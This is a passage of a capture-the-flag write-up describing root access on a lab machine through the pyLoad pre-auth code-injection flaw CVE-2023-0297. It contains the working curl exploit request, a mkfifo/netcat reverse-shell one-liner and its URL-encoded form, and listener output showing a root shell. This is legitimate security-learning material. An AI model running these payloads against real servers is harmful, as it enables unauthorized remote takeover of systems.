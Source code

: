 A quick google search for pyLoad vulnerabilities returned a pretty serious pre-auth RCE vulnerability that was reported early 2023: [CVE-2023-0297](GitHub - bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad: CVE-2023-0297: The Story of Finding Pre-auth RCE in pyLoad. Let’s see if we can get this vulnerability to work).

After going through a run down of the exploit, it looks like we can inject code into the js2py.eval_js() function. To exploit this we are going to want to make a POST request to our localhost on port 8000 and the request will be tunneled back over to our target machine since the ssh command we ran earlier with the -L option was specified.

The exploit curl command is as follows:

```bash
curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"touch%20/tmp/pwnd\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://localhost:8000/flash/addcrypted2'
```

Inside of the os.system variable we are going to replace the touch command with a reverse shell. The command I used was:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ‘addr_of _your_machine’ ‘specified_port’ >/tmp/f
```

Next we are going to want to url-encode this so that we won’t get any errors when we make the request. To do this you could slap your command into Chat-GPT or BurpSuite but here is a really useful one-liner that I used to do it:

```bash
echo -n "command_here" | php -r 'echo urlencode(fgets(STDIN)
```

Now use the url-encoded command in the POST request, it should look similar to this (Remember to change the specified IP/Port and start a Netcat listener before running this):

```bash
curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"rm+%2Ftmp%2Ff%3Bmkfifo+%2Ftmp%2Ff%3Bcat+%2Ftmp%2Ff%7C%2Fbin%2Fsh+-i+2%3E%261%7Cnc+YOUR_IP_HERE+YOUR_PORT_HERE+%3E%2Ftmp%2Ff\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://localhost:8000/flash/addcrypted2'
```

After running this command you should have received a connection on your listener, establishing a reverse shell as root!

```bash
h0ax@h0ax:~$ nc -lvnp 8888
Listening on 0.0.0.0 8888
Connection received on 10.10.11.214 34572
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
nevah_gunna_give_u_uppp ;)
```

Happy hacking everyone! <3
